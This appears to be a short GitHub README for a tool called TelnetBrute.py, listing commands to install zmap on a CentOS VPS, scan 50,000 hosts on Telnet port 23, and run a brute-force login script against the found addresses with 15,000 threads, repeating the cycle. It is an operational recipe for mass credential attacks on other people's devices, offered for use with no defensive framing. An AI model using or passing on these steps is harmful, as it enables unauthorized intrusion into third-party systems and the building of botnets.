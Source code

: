 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p23 -o mfu.txt -N 50000 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



